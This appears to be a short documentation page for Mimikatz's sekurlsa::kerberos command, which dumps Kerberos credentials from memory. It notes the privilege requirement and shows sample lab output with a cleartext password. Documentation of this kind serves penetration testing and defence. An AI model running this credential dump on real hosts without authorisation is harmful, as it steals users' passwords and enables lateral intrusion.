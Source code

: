 # kerberos

`sekurlsa::kerberos` lists Kerberos credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::kerberos

Authentication Id : 0 ; 135255778 (00000000:080fd6e2)
Session           : RemoteInteractive from 3
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/27/2021 1:22:05 PM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        kerberos :
         * Username : m3g9tr0n
         * Domain   : HACKLAB.LOCAL
         * Password : Super_SecretPass1!
```
